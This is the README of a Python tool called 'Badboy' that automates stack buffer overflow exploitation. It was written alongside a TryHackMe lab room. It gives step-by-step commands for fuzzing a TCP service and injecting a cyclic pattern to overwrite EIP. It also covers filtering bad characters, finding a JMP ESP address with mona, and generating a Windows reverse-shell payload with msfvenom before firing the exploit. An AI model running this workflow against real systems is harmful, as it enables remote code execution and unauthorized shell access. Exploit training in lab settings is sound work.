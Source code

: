# Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supply the IP, Port and Prefix.
The Prefix can be an HTTP POST parameters or a command from a program, e.g in that context **HELP** would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
For the other examples, I will use **OVERFLOW9** as our **Prefix** since I made the script along side doing the exercice on TryHackMe:
https://tryhackme.com/room/bufferoverflowprep

```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```
![Fuzzing](img/fuzz.png)
## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```
![Inject Cyclic Pattern](img/inject-a-cyclic-pattern-from-stdin.png)

After having injected the cyclic pattern, we can see that the EIP value is being affected, copy the value in EIP
and supply it to **msf-pattern_offset** with the same length we used in **msf-pattern_create**.

![Get Cyclic Pattern](img/get-cyclic-char-in-eip.png)
```
msf-pattern_offset -l 1600 -q "35794234"
```
![Get Offset](img/get-offset-from-cyclic-chars.png)

Now that we have found the correct offset we can supply it to Badboy, in order to check if EIP will hold the value "CCCC" or "43434343"
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```
![Check Offset](img/checking-offset-for-eip.png)

By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlled EIP, you can move to the next step.
![Check controlled EIP](img/eip-controlled.png)

## Testing and Filtering Bad Characters

Bad characters can be filtered quickly and easily directly from the shell.
Simply start by providing the bad character (\x00) or "00" in our case.
All bad characters needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```
![Badchar1](img/inject-testing-badchar-1.png)

Repeat the process until every bad characters have been filtered out.
![Badchar2](img/inject-testing-badchar-2.png)
![Badchar3](img/inject-testing-badchar-3.png)
![Badchar4](img/inject-testing-badchar-4.png)
![Badchar5](img/inject-testing-badchar-5.png)

## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```
![JMP ESP](img/get-jmp-esp-address-from-mona.png)

Don't forget to revert the bytes order of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the **bad characters**, that you have your **offset** and your have the value of **EIP**.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below and you should get a reverse shell: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```
![Exploit](img/inject-trigger-shell.png)
